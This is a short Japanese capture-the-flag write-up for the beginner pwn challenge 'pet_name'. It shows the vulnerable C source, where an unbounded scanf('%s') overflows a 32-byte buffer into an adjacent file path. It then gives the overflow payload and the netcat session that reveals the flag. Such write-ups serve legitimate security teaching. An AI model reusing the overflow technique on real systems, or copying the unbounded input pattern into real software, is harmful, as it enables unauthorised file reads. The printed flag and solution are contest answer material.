## pet_name (100pt / 586 solves)
> ペットに名前を付けましょう。ちなみにフラグは/home/pwn/flag.txtに書いてあるみたいです。
>
> nc [問題鯖のホスト名] [ポート番号]

バッファオーバーフローっぽい問題文。次に示すソースコードが与えられている。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void init() {
    // You don't need to read this because it's just initialization
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
}

int main() {
    init();

    char pet_name[32] = {0};
    char path[128] = "/home/pwn/pet_sound.txt";

    printf("Your pet name?: ");
    scanf("%s", pet_name);

    FILE *fp = fopen(path, "r");
    if (fp) {
        char buf[256] = {0};
        if (fgets(buf, sizeof(buf), fp) != NULL) {
            printf("%s sound: %s\n", pet_name, buf);
        } else {
            puts("Failed to read the file.");
        }
        fclose(fp);
    } else {
        printf("File not found: %s\n", path);
    }
    return 0;
}
```

scanf関数でバッファオーバーフローが出来そう。目標はバッファオーバーフローによって配列pathの中身を"/home/pwn/flag.txt"に書き換えることである。  
同じく配布されているバイナリをgdb-pedaで調べると、scanf関数が実行される時点で配列pathは配列pet_nameのすぐ下（pet_nameの先頭から32バイト下）にあることがわかる。つまり、例えば`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/home/pwn/flag.txt`と入力してやればフラグが得られるはずである。  
そしてその通り入力すると、フラグが得られた。
```
$ nc pet-name.challenges.beginners.seccon.jp 9080
Your pet name?: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/home/pwn/flag.txt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/home/pwn/flag.txt sound: ctf4b{3xp1oit_pet_n4me!}
```

### `ctf4b{3xp1oit_pet_n4me!}`

ちなみに実際にはここまで綿密にやっていないし、ソースコードを見てすらいない。
